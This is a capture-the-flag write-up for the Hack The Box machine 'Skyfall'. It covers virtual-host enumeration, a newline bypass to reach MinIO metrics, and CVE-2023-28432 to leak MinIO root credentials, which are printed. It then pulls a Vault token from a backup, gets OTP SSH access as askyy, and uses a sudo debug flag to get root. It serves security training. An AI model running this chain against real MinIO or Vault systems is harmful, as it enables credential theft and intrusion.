 ```yaml
---
title: HTB-Skyfall
draft: false
tags:
  - htb
  - linux
  - insane
---
```

pic here

## Information Gathering

`rustscan --addresses 10.10.11.254 --range 1-65535`

![alt text](image.png)

`sudo nmap -sVC -p 80 10.10.11.254`

![alt text](image-1.png)

## Enumeration
### HTTP - TCP 80

![alt text](image-2.png)

skyfall.htb

![alt text](image-3.png)

`sudo gobuster vhost --append-domain -u http://skyfall.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`

![alt text](image-4.png)

### demo.skyfall.htb
guest:guest

![alt text](image-5.png)

![alt text](image-6.png)

MinioMetrics

/metrics

![alt text](image-7.png)

`%0a`

![alt text](image-8.png)

When I scroll down the page, I come across the MinIO endpoint.

`http://prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster` /etc/hosts

![alt text](image-9.png)


### prd23-s3-backend.skyfall.htb


![alt text](image-10.png)


## Shel as askyy
### CVE-2023-28432


![alt text](image-11.png)

https://github.com/acheiii/CVE-2023-28432/

![alt text](image-12.png)

`POST /minio/bootstrap/v1/verify`

![alt text](image-13.png)

```
MINIO_ROOT_USER:5GrE1B2YGGyZzNHZaIww
MINIO_ROOT_PASSWORD:GkpjkmiVmpFuL2d3oRx0
```

### MinIO Client

**mc**** is a command-line client for **MinIO**, an open-source object storage server compatible with Amazon S3 cloud storage service.



https://min.io/docs/minio/linux/reference/minio-mc.html#id2

![alt text](image-14.png)

`mc alias set myminio http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0`

![alt text](image-15.png)

`mc ls myminio`

![alt text](image-16.png)

`mc ls --recursive --versions myminio`

![alt text](image-17.png)

`mc cp --vid 2b75346d-2a47-4203-ab09-3c9f878466b8 myminio/askyy/home_backup.tar.gz ~/Documents/htb/skyfall/home_backup.tar.gz`

![alt text](image-18.png)

### Vault

`sudo tar xzvf home_backup.tar.gz`

![alt text](image-19.png)


`.bashrc`

![alt text](image-20.png)

```
export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_TOKEN="hvs.blahblah"
```

prd23-vault-internal.skyfall.htb

/etc/hosts

https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords


`wget https://releases.hashicorp.com/vault/1.15.5/vault_1.15.5_linux_amd64.zip`

`export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"`

`export VAULT_TOKEN="hvs.blahblah"`


`./vault login`

![alt text](image-21.png)

`./vault token capabilities ssh/roles`

![alt text](image-23.png)

`./vault list ssh/roles`

![alt text](image-24.png)

`./vault ssh -role dev_otp_key_role -mode OTP -strict-host-key-checking=no askyy@10.10.11.254`

![alt text](image-22.png)

## Privesc: askyy to root
### Sudoers

`sudo -l`

![alt text](image-25.png)

`sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml`

![alt text](image-26.png)

`sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd`

![alt text](image-27.png)

![alt text](image-28.png)

![alt text](image-29.png)

![alt text](image-30.png)



sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd 


### SSH as root

```
export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_TOKEN="blah blah"
```

![alt text](image-31.png)

`./vault ssh -role admin_otp_key_role -mode OTP -strict-host-key-checking=no root@10.10.11.254`

![alt text](image-32.png)

## References
- https://github.com/acheiii/CVE-2023-28432/
- https://min.io/docs/minio/linux/reference/minio-mc.html#id2